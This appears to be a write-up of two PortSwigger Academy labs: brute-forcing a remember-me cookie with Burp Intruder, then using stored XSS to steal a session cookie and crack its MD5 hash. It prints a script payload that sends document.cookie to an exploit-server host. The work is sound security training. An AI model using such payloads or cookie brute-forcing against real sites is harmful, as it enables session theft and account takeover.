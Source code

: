 ```yaml
---
title: Other vulnerable Authentication Mechanismus
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-30 09:00:00 +0200
categories: [Web Application, Broken Authentication]
tags: [Notes, Web Application, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the Authentication vulnerabilities or [Broken Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication) if we follow [OWASP](https://owasp.org/) naming scheme. 

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/authentication) Labs, but i do intent do throw other labs and writeups here as well.

# TOC

- [Intro](#intro)
- [TOC](#toc)
- [Brute-forcing a stay-logged-in cookie](#brute-forcing-a-stay-logged-in-cookie)
  - [Abusing `stay-logged-in` mechanismus](#abusing-stay-logged-in-mechanismus)
- [Offline password cracking (weak hash used for remember-me cookie)](#offline-password-cracking-weak-hash-used-for-remember-me-cookie)
  - [Enumeration first!](#enumeration-first)
  - [Exploitation next!](#exploitation-next)
 
# Brute-forcing a stay-logged-in cookie
>  This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.
> 
> To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.
> 
> Your credentials: wiener:peter
> 
> Victim's username: carlos
> 
> [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

Long story short. This is all about the vulnerable `remember me`/`stay-logged-in`functionality.

## Abusing `stay-logged-in` mechanismus

Let's login using `wiener:peter`. 
![picture 92](/assets/images/c3de592df71ec6ed1862aa69f7db5e40afa8f8632db991b0ab92b43699ac07ce.png)

We can see in the response that cookie that is being sent in response includes username and some sort of hash. This md5 hash is password, which is known = `peter`.

This hash persists then in the subsequent requests like `/my-account`. Let's try to bruteforce carlos's password hash in the cookie.

We can use `sniper` mode against `my-account` without session cookie!

For payload we can use the provied password list, we however need do hash he password, add a prefix which is `carlos:` and encode whole thing as base64

![picture 95](/assets/images/5fafc845a3952d4ab27db939c06e0f167ab844f55781c2e1545eb953c9583b29.png)

If everything has been done correctly, Intruder should be able to find the password:

![picture 93](/assets/images/06bf5917d5f0ee71864440174505b15eea3137634a27583c9eb5c91c01e1ed1b.png)  

Lab has been solved

![picture 94](/assets/images/1d7afa7f9c9e75d2410df73c7d5c74d9081b432db69be192ba0a86d089765d64.png)  

# Offline password cracking (weak hash used for remember-me cookie)

> This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.
> 
> Your credentials: wiener:peter
> Victim's username: carlos
> 
> **Learning path**
> 
> !!!!!If you're following our suggested learning path, please note that this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.!!!!!!

## Enumeration first!

Let's login first
![picture 96](/assets/images/4018c68cd599f0f02b42e929a4bba0f73997c1ad0cef417ec395532dba4ab52a.png)  

We're supposed to delete an accout: 
![picture 97](/assets/images/b2fd12ac206bd0a8b983f0bcf5e3ae576d65ebef900d31b69464742355857f93.png)  

If XSS should do cause a deletion, then we'd need a client to request for `/my-account/delete`

We however need to steal the credentials.

## Exploitation next!
For XSS we have a server available:

![picture 98](/assets/images/76f9d6ddf1433f39a0467b27481e77cc5bba2a41619d42e9ead85f8519cd8341.png)  

As we already know that there is a XSS, let's simply leave a message in the comment in one of the posts

![picture 99](/assets/images/6975072d1a762add5aac6bb5df61a0bd29bf82bee7beaed27c37f8d17f1ad285.png)  

Payload:
```
<script>document.location='https://exploit-0a79008a03044c6dc0753916018d0031.web-security-academy.net/c='+document.cookie</script>
```

If we check our Access logs we'd see something there:

![picture 100](/assets/images/c03375535b5c517ff1221cdb1ccd00553065a6d9c5588b4dda34eee461f55a1b.png)  

If we check the `stay-logged-in` token and send it to `Decoder` we can see it's carlos's token:

![picture 101](/assets/images/8ee439d90eaa64cebed1623dd07ae4176ab41657efdc6a7ca1adfccaed54aa25.png)  

Password can be found on google ==> `26323c16d5f4dabff3bb136f2460a943:onceuponatime` for carlos's user.

Now login and delete the Carlos!

![picture 102](/assets/images/c1f0d215900c190e28e00f0b6550e825f69d683aeebea575964f6db7585d7eee.png)  

It would be possible to delete Carlos using XSS, but it was not in focus in this lab!

